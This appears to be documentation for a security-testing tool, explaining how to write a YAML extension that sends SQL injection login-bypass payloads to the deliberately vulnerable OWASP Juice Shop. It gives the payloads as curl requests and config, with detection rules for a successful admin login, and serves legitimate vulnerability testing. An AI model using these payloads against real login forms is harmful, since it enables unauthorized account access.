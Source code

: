 [link-meta-info]:           ../create-extension.md#structure-of-the-meta-info-section
[link-send-headers]:        ../phase-send.md#working-with-the-host-header
[link-using-extension]:     ../using-extension.md
[link-app-examination]:     app-examination.md

[doc-send-phase]:           ../phase-send.md
[doc-detect-phase]:         ../detect/phase-detect.md

[link-juice-shop]:          https://www.owasp.org/index.php/OWASP_Juice_Shop_Project



#   Creation of Nonmodifying Extension

The extension described in this document will not modify an incoming baseline request to inject some payload into. Instead, the two predefined test requests will be sent to the host that is specified in the baseline request. These test requests contain payloads that could lead to exploitation of the SQLi vulnerability in the [“OWASP Juice Shop”][link-juice-shop] target application's login form.


##  Preparations

It is highly recommended to [investigate the target application's behavior][link-app-examination] prior to creation of the FAST extension.


##  Constructing the Extension

Create a file that describes the extension (e.g., `non-mod-extension.yaml`) and populate it with the required sections:

1.  [**The `meta-info` section**][link-meta-info].

    Prepare the description of the vulnerability that the extension will try to detect.
    *   vulnerability header: `OWASP Juice Shop SQLi (non-mod extension)`
    *   vulnerability description: `Demo of SQLi in OWASP Juice Shop (Admin Login)`
    *   vulnerability type: SQL injection
    *   vulnerability threat level: high
<br><br>
    
    The corresponding `meta-info` section should look as follows:
    
    ```
    meta-info:
      - type: sqli
      - threat: 80
      - title: 'OWASP Juice Shop SQLi (non-mod extension)'
      - description: 'Demo of SQLi in OWASP Juice Shop (Admin Login)'
    ```
    
2.  **The `send` section, the [Send phase][doc-send-phase]**

    There are two payloads that should be sent as an `email` parameter value alongside any `password` value in order to exploit the SQL injection vulnerability in the target application:
    *   `'or 1=1 --`
    *   `admin@juice-sh.op'--`
    
    You can craft two test requests, each containing
    *   the `email` parameter with one of the values described above and 
    *   the `password` parameter with an arbitrary value.

    It is sufficient to use just one of these requests to test our example target application (OWASP Juice Shop).
    
    However, having a set of several prepared test requests may be useful when conducting the security testing of a real application: if one of the requests can not exploit a vulnerability anymore thanks to updates and improvements in the application, then there will be other test requests available that may still exploit the vulnerability because of other payloads in use.

    The request with the first payload from the list above is similar to this one:
    
    ```
    curl --request POST --url http://ojs.example.local/rest/user/login \
         --header 'content-type: application/json' \
         --header 'host: ojs.example.local' \
         --data '{"email":"'\''or 1=1 --", "password":"12345"}'
    ```

    The second request looks like the first one:

    ```
    curl --request POST --url http://ojs.example.local/rest/user/login \
         --header 'content-type: application/json' \
         --header 'host: ojs.example.local' \
         --data '{"email":"admin@juice-sh.op'\''--", "password":"12345"}'
    ```

    Add the `send` section containing the descriptions of these two test requests:
    
    ```
    send:
      - method: 'POST'
        url: '/rest/user/login'
        headers:
        - 'Content-Type': 'application/json'
        body: '{"email":"''or 1=1 --","password":"12345"}'
      - method: 'POST'
        url: '/rest/user/login'
        headers:
        - 'Content-Type': 'application/json'
        body: '{"email":"admin@juice-sh.op''--","password":"12345"}'
    ``` 
    
    !!! info "A note about the `Host` header" 
        The `Host` header can be omitted in these requests because it does not influence the exploitation of this particular SQLi vulnerability. A FAST node will automatically add the `Host` header extracted from an incoming baseline requests.
        
        Read [here][link-send-headers] about how the Send phase handles request's headers.

     3.  **The `detect` section, the [Detect phase][doc-detect-phase]**.
    
    The following conditions indicate that the user authentication with administrator's rights was successful:
    *   The presence of the shopping cart identifier parameter with the `1` value in the response body. The parameter is in JSON format and should look like this:
    
        ```
        "bid":1
        ```
    
    * The presence of the user email parameter with the `admin@juice-sh.op` value in the response body. The parameter is in JSON format and should look like this:
    
        ```
         "umail":"admin@juice-sh.op"
        ```
    
    Add the `detect` section that checks whether the attack was successful according to the conditions described above.
    
    ```
    detect:
      - response:
        - body: "\"umail\":\"admin@juice-sh.op\""
        - body: "\"bid\":1"
    ```
    
!!! info "Escaping the special symbols"
    Remember to escape the special symbols in the strings.

 ##  The Extension File

Now the `non-mod-extension.yaml` file contains a complete set of the sections required for the extension to operate. The list of the file's contents is shown below:

{% collapse title="non-mod-extension.yaml" %}
```
meta-info:
  - type: sqli
  - threat: 80
  - title: 'OWASP Juice Shop SQLi (non-mod extension)'
  - description: 'Demo of SQLi in OWASP Juice Shop (Admin Login)'

send:
  - method: 'POST'
    url: '/rest/user/login'
    headers:
    - 'Content-Type': 'application/json'
    body: '{"email":"''or 1=1 --","password":"12345"}'
  - method: 'POST'
    url: '/rest/user/login'
    headers:
    - 'Content-Type': 'application/json'
    body: '{"email":"admin@juice-sh.op''--","password":"12345"}'

detect:
  - response:
    - body: "\"umail\":\"admin@juice-sh.op\""
    - body: "\"bid\":1"
```
{% endcollapse %}


##  Using the Extension

For detailed information about how to use the created expression, read [this document][link-using-extension].
